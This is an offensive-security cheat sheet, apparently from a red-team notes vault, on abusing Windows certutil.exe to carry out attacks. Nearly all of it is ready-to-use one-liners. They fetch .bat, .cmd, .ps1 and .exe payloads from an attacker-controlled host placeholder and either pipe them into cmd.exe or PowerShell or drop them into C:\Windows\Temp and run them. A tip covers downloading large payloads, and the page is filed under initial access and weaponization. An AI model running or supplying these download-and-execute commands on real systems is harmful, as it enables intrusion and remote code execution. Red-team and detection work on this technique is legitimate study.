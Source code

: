 # CertUtil

## 01 - Common Files

```
C:\Windows\System32\certutil.exe
C:\Windows\SysWOW64\certutil.exe
```

## 02 - Execute Payloads

### 2.1 - Fileless Code Execution

```
C:\> certutil.exe -urlcache -f http[s]://<IP>/payload.bat | cmd.exe

C:\> certutil.exe -urlcache -f http[s]://<IP>/payload.cmd | cmd.exe

C:\> certutil.exe -urlcache -f http[s]://<IP>/payload.ps1 | powershell.exe
```

### 2.2 - Dropping On Disk

Download payload and execute it.

```
C:\> certutil.exe -urlcache -f http[s]://<IP>/payload.exe C:\Windows\Temp\payload.exe  & C:\Windows\Temp\payload.exe
```

Download the large payload.

> [!TIP] Downloading Large Payloads
> The `-split` flag is great for downloading a large payload.

```
C:\> certutil.exe -urlcache -split -f http[s]://<IP>/payload.exe C:\Windows\Temp\payload.exe  & C:\Windows\Temp\payload.exe
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/Batch]]